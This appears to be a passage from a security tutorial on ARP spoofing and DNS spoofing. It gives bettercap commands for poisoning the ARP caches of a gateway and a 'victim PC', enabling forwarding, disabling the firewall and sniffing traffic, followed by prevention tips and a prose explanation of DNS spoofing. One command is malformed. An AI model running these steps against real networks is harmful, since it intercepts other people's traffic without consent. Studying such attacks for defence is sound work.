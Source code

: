 ```bash
192.168.1.0/24 > 192.168.1.8 >>   net.show         # to see the network in table form
# We start By Setting Our Arp Spoof target and Making Full Duplex True.
192.168.1.0/24 > 192.168.1.8 >>   set arp.spoof.targets 192.168.1.1, 192.168.1.9
192.168.1.0/24 > 192.168.1.8 >>   set arp.spoof.fullduplex true
# Now, Lets Enable Our Arp Spoof
192.168.1.0/24 > 192.168.1.8 >>   arp.spoof on
```

- Now, Lets Check the Arp Cache on windows.
```c
ps c:\Users>   arp -a
```
- Let’s Start Our Sniffer, Bc Now we are between The Gateway and Victim PC. 
	- But We need to disable firewall and enable routing on our machine
```bash
~>$   sudo systemctl net.ipv4.ip_forward=1
~>$   sudo ufw disable
```
- Start the sniff process:
```bash
192.168.1.0/24 > 192.168.1.8 >>   net.sniff on
```

## HTTP vs HTTPs

- **HTTPS** is essential for securing web communications, protecting users' sensitive data, and ensuring a trusted browsing experience, while HTTP is considered outdated and insecure.
- So, We Can Sniff HTTP requests As you can Observe.

## Prevention

1. **Using static ARP tables**: manually setted 
2. **Switch security**: some feature for ARP poisoning 
3. **Encryption**: not for arp but in case of leaks

## DNS Spoofing

DNS, or the domain name system, is the phonebook of the Internet, connecting web browsers with websites.
```
www.google.com      172.217.2.36
www.evernote.com    204.154.94.81
www.sfsymphony.org  66.40.15.115
www.atlessian.net   104.192.136.171
```
- Domain Name Server (DNS) spoofing, or DNS cache poisoning, is an attack involving manipulating DNS records to redirect users toward a fraudulent, malicious website that may resemble the user’s intended destination.

## How Does DNS Spoofing Work?

DNS spoofing works by exploiting flaws in the DNS and its associated protocols. An attack can be accomplished in several ways:
- a. A malicious actor may use address resolution protocol (ARP) to access router traffic and alter the domain name resolution records. 
- b. The attacker can modify an authoritative DNS server’s records, redirecting traffic to the fraudulent website. 
- c. The attacker can target an intermediate name server and exploit weaknesses in its caching system to perform a Man-in-the-Middle (MITM) attack.
